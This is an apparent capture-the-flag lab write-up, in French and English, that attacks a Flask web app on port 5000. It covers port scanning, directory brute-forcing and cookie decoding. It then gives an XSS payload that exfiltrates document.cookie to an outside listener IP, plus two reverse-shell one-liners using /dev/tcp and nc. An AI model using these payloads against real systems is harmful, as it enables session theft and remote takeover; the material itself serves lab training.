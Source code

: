 # enum
```
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
1024/tcp  filtered kdm
1078/tcp  filtered avocent-proxy
5000/tcp  open     upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Mon, 25 Mar 2024 14:57:25 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
5810/tcp  filtered unknown
6059/tcp  filtered X11:59
9080/tcp  filtered glrpc
32774/tcp filtered sometimes-rpc11
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://htb:5000/
```
	/dashboard
Je n'ais pas de droit d'acces à cette page il me faut donc récupérer le cookie de l'admin
## exploit
analyzing my cookie
```
flask-unsign --decode --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs'
```                       
	user
### xss
When i put a html tag in the message field in support page, i receive a warning message displaying my brower's informations such as *user agent*.
It say that admin will see those informations.
On peut donc tenter une xss pour récupérer le cookie de l'admin en remplaçant la valeur de l'attribut *user agent* de l'entête de la requête.
I have start a listeaner server
```
<img src= x onerror=fetch('http://10.10.16.49:8001/'+document.cookie);>
```

```
echo -n 'bash -i >& /dev/tcp/10.10.16.49/1234 0>&1' | base64 -w 0
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.16.49 1234 >/tmp/f
```
